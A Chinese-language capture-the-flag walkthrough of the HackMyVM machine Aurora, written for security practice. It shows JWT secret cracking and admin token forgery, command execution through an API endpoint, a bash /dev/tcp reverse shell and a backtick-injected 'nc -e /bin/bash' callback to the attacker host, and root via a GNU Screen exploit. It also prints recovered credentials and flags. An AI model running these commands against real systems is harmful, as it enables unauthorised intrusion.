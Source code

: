 # Aurora

2025.03.12 https://hackmyvm.eu/machines/machine.php?vm=Aurora

[video](https://www.bilibili.com/video/BV1DBDfYUELJ/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

发现 3000 使用的是 Express ，get 方式扫描目录没结果，使用 post 方式再次扫描 web 目录。

```
gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.5.39:3000/ -m POST

http://192.168.5.39:3000/register             (Status: 400) [Size: 29]
http://192.168.5.39:3000/login                (Status: 401) [Size: 22]
http://192.168.5.39:3000/Login                (Status: 401) [Size: 22]
http://192.168.5.39:3000/Register             (Status: 400) [Size: 29]
http://192.168.5.39:3000/execute              (Status: 401) [Size: 12]
http://192.168.5.39:3000/LogIn                (Status: 401) [Size: 22]
http://192.168.5.39:3000/LOGIN                (Status: 401) [Size: 22]
http://192.168.5.39:3000/logIn                (Status: 401) [Size: 22]
```

使用 postman 进行测试，POST 方式访问 http://192.168.5.39:3000/register 提示 The "role" field is not valid，然后提交的 json 参数中进行探测，role:admin、role:user 发现 user 成功，这时又提示 Column 'username' cannot be null ，再添加个 username 参数，然后又提示 Column 'password' cannot be null ，再添加个 password 字段：

```
{
    "role": "user",
    "username": "jack",
    "password": "jack"
}
```

这时提示 Registration OK，然后用这个注册的用户凭据在调用http://192.168.5.39:3000/login 接口:

```
{
    "role": "admin",
    "username": "jack",
    "password": "jack"
}

返回
{
    "accessToken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImphY2siLCJyb2xlIjoidXNlciIsImlhdCI6MTc0MTc4MDQ4N30.P30q1STpQlI0krsAF6V7K_NQKX2P3OojkgMuDQK3DAU"
}
```

发现是 jwt，解析后显示：

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "jack",
  "role": "user",
  "iat": 1741779158
}
```

可以使用这个在线网站进行操作 https://jwt.p2hp.com/ ，将 role 修改成 admin，username 修改成 admin，看看能否有未授权访问，但是不行。在访问/login 还是显示未授权，修改后认证不成功。

爆破一下 jwt 中的密钥，将 jwt 字符串保存在文本中使用 john 进行爆破：

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --pot=./pot
```

得到密码 nopassword ，然后对 jwt 进行修改成 usernaem:admin 和 role:admin

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c
```

修改请求头中的信息：

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' http://192.168.5.39:3000/execute
```

执行后报错说缺少 file 参数，使用 ffuf 探测一下参数:

```
ffuf -t 100 -c -X POST -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.39:3000/execute -d '{"FUZZ":"id"}' -ac
```

找到参数名为 command 进而执行反弹:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxOTA5NTE5OTM0fQ.X0y11_tfdvGcsUL0cTOpksXhmeOBw0iFKpmWtDUdA-c' -H 'Content-Type: application/json' -d '{"command":"/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\""}' http://192.168.5.39:3000/execute
```

得到 shell 后，发现 app.js 文件，查看内容发现连接数据库的配置信息：

```
const pool = mysql.createPool({
  host: 'localhost',
  user: 'admin',
  password: 'zMgRthZraw6Sf',
  database: 'auroraDB',
});

MariaDB [auroraDB]> select * from users;
+----+----------+--------------+-------+
| id | username | password     | role  |
+----+----------+--------------+-------+
|  1 | admin    | CMcvw9Q5v79Z | admin |
| 29 | jack     | jack         | user  |
+----+----------+--------------+-------+
```

sudo -l 显示 `(doro) NOPASSWD: /usr/bin/python3 /home/doro/tools.py *` 在脚本中字符串拼接可以执行命令 os.system('ping -c 2 ' + ip_address) , 但是在代码中对分隔符进行了过滤：

```
forbidden_chars = ["&", ";", "(", ")", "||", "|", ">", "<", "*", "?"]
```

但是没有过滤 `` 所以可以直接先执行反引号中的命令,正好目标机器上有 nc：

```
`nc 192.168.5.3 8888 -e /bin/bash`
```

拿到了 user flag：

```
doro@aurora:~$ cat user.txt
ccd839df5504a7ace407b5aeca436e81
```

发现 suid 程序 screen GNU_Screen_4.5.0 这个版本有漏洞 https://www.exploit-db.com/exploits/41154 按照这里面的操作执行，最终拿到了 root 权限：

```
# cat root.txt
052cf26a6e7e33790391c0d869e2e40c
```
